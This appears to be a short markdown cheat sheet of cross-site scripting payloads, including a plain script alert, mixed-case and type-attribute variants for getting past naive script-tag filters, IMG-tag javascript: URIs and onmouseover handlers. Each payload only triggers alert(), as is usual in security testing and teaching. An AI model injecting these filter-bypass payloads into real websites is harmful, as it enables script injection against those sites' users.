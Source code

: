 # Examples


## No security
<script>alert(1)</script>


Imagine that the server sanitizes `<script>`. To bypass that we can use:
`<SCrIpt>alert(2)</ScRiPt>`
`<script type=text/javascript>alert(2)</script>`

### Using the IMG-tag
<IMG SRC="javascript:alert('XSS');">
<IMG SRC=javascript:alert('XSS')>
<IMG SRC=JaVaScRiPt:alert('XSS')>
<IMG SRC=javascript:alert("XSS")>
<IMG onmouseover="alert('xxs')">


### Onmouseover
<a onmouseover="alert(2)">d</a>

